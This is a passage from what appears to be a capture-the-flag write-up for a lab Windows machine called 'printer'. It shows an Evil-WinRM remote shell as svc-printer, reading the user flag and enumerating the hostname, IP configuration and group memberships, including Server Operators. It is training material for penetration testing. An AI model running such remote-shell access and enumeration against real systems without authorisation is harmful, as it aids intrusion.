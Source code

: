 ```
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\svc-printer> cd Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/11/2022   1:44 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
<---- FLAG ---->

```
Now the user flag has been captured, it is time to enumerate a bit more. Let's check the hostname and IP configuration.

```
*Evil-WinRM* PS C:\windows> hostname
printer
*Evil-WinRM* PS C:\windows> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::202
   IPv6 Address. . . . . . . . . . . : dead:beef::68b4:9ce:9b4e:bf5
   Link-local IPv6 Address . . . . . : fe80::68b4:9ce:9b4e:bf5%10
   IPv4 Address. . . . . . . . . . . : 10.129.138.232
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f8ec%10
                                       10.129.0.1
```

As aspected this machine has one IP address, so nothing useful for now. Now let's see which memberships the user svc-printer has.

```
*Evil-WinRM* PS C:\windows> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
```